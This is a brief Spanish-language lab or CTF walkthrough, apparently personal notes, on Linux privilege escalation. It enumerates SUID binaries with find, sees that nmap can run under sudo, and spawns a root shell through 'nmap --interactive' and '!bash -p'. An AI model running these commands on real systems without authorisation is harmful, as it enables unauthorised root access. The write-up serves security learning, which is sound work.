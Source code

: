 ### escalada de privilegios
# Enumeración básica sistema
```css
	find / -perm -4000 2>/dev/null
```

![[2023-10-29_15-37.png]]
# Permisos sudo
```css
	/usr/local/bin/nmap
```

### parece que esta maquina tiene instalado nmap y lo podemos ejecutar como sudo. asi que vamos a explotar esta vulnerabilidad de la siguiente manera.

utilizamos el comando:
```css
	nmap --interactive
```


![[2023-10-29_15-42.png]]
### este comando de nmap nos permite ejecutar codigo del sistema utilizando la herramienta nmap.

ahora ejecutamos el llamado de una bash con el siguiente codigo:
```c
	!bash -p
```
### WE ARE ROOT
